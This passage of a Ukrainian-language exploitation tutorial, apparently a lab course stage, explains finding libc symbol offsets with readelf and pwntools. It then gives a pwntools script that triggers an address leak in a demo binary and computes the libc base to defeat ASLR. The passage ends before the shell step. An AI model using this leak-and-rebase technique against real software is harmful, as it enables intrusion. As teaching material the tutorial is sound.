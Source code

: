 Бачите? Кожен раз **різна адреса**!

### Крок 3: Знайдіть offset puts() в libc

**Спосіб 1: Через readelf**

Спочатку знайдіть яка libc використовується:
```bash
ldd ../build/stage07_leak_demo | grep libc
# libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6
```

Знайдіть offset puts:
```bash
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep " puts@"
```

**Спосіб 2: Через pwntools (найкращий)**

```python
from pwn import *

# Завантажуємо ту саму libc що використовує програма
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Отримуємо offset
puts_offset = libc.symbols['puts']
print(f"puts offset: {hex(puts_offset)}")
```

### Крок 4: Створіть exploit

Файл `exploit.py`:

```python
#!/usr/bin/env python3
from pwn import *

# Налаштування
context.log_level = 'info'

# Завантажуємо бінарник
elf = ELF('../build/stage07_leak_demo', checksec=False)

# Завантажуємо libc (ТУ САМУ що використовує програма!)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

log.info(f"Offset puts() в libc: {hex(libc.symbols['puts'])}")
log.info(f"Offset system() в libc: {hex(libc.symbols['system'])}")

# Запускаємо процес
io = process('../build/stage07_leak_demo')

# Відправляємо команду LEAK
io.sendline(b'LEAK')

# Отримуємо витік
response = io.recvline().decode().strip()
log.info(f"Відповідь сервера: {response}")

# Парсимо адресу
leaked_puts = int(response.split('=')[1], 16)
log.success(f"Витік: puts() = {hex(leaked_puts)}")

# Розраховуємо базу libc
libc.address = leaked_puts - libc.symbols['puts']
log.success(f"Libc base: {hex(libc.address)}")

```